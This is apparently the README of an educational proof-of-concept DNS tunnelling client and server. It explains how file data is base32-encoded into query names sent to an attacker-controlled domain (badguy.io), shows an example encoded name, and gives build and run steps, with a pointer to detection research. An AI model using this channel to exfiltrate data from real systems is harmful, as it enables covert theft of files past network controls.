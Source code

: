 # DNS Tunneling POC

## Introduction

This is a proof of concept for a DNS tunnelling client and server, for security education. The DNS server implemented here is woefully incomplete, as the point is not to resolve names, but to participate in file transfers. The server only handles A and AAAA queries with a single name, and responds to A queries with the same IP address (16.32.64.128), and to AAAA queries with a repsonse indicating an IPv6 address is not available, as per [RFC 4074 section 3](https://datatracker.ietf.org/doc/html/rfc4074#section-3).

## Theory of operation

The `dns_send` client can send a file or standard input to a remote name server controlled by an attacker. Each file transfer is identified by a uuid. Each payload  of the data transfer  consists of the uuid, a packaet seqence number and 120 bytes of data. The payload is encoded in base 32, then included in a domain name.  This is an example of such a name, which encodes a UUID, a sequence number and 120 bytes of data, and which obeys all of the rules for an Internet domain name:

```text
QLFGR3VWU5D37KJMLXJOKUKDJERQAAAANNXHIZRIEJLXE33UMUQCKZBAMJ4X.IZLTEB2G6IBFOMQGC5BAN5TGM43FOQQCKZC4NYRCYIDQMF4WY33BMQWT43DF.NZTXI2BMEBTGS3DFNZQW2ZJMBIQCAIBAEAQCAIBAOBQXS3DPMFSC2PTTMVYX.KZLOMNSSAKRAGEZDAKJ3BJ6QU.badguy.io
```

In an attack scenario, an attacker would register the badguy.io domain  (from the name above), point the DNS server for the domain to a server running the  `dns-server` application in this project, so that it could receive and decode the specially crafted DNS queries. Since each name query is unique, there is no concern with caching.

## Building

Run `make`. This will build `dns-server`  and `dns-send` io the `dist` directory.  See the `Makefile` for additional targets.

## Running

Start the server by running `dns-server`. As the server binds to privoleged port 53, it must be run as root (or sudo). 
The client usage is as follows:

```shell
dns_send [file [ip]]
```

Without any paranmeters, the program reads from stdin, and uses the default system resolver to eventually reach the attacker DNS server , provided the `dns-send` program is modified to resolve the correct domain (and not badguy.io).

A file name can be specified as the first argument, in which case the file will be transmitted through as many DNS requests as needed.

An IP address can be specified as the second parameter, which is useful in cases where you do not want to set up a domain and a server running `dns-server`. In that case, you can run `dns-server` on any machine, including the same machine on which `dns-send` is running, and point `dns-send` at the server. While this is not a realistic attack scenario in most cases, it will demonstrate transmitting large amounts of data over DNS.

### Running on Linux

On systems using `systemd`, you will have to temporarily turn off the systemd resolver to free up port 53 (used by the POC server).

```shell
sudo systemctl stop systemd-resolved
```

Since the POC server really cannot resolve anything, you may want to edit `/etc/resolv.conf` to point to a real server, such as `8.8.8.8`

### Running on WSL

WSL requires Internet Connection Sharing which uses port 53. It is therefore not possible to run the server on WSL. The server can however run in a Windows command window.

## Detecting DNS tunnelling
Due to nature of DNS tunneling, there are several methods to detect it, and thereafter prevent it. See the [Detecting DNS Tunelling](https://www.sans.org/white-papers/34152/) paper from the SANS Institute for examples.


## Dependencies

- Debian package `uuid-dev`
- Debian package `libbsd-dev` (not needed for BSD)

## Included open source code

Base32 encoder/decoder from [Google Authenticator PAM module](https://github.com/google/google-authenticator-libpam)

## References

- [TCP/IP Illustrated Volume 1, W. Richard Stevens](https://www.amazon.com/TCP-Illustrated-Vol-Addison-Wesley-Professional/dp/0201633469)
- https://courses.cs.duke.edu//fall16/compsci356/DNS/DNS-primer.pdf
- [RFC 4074](https://datatracker.ietf.org/doc/html/rfc4074#)
- [RFC1034](https://datatracker.ietf.org/doc/html/rfc1034)
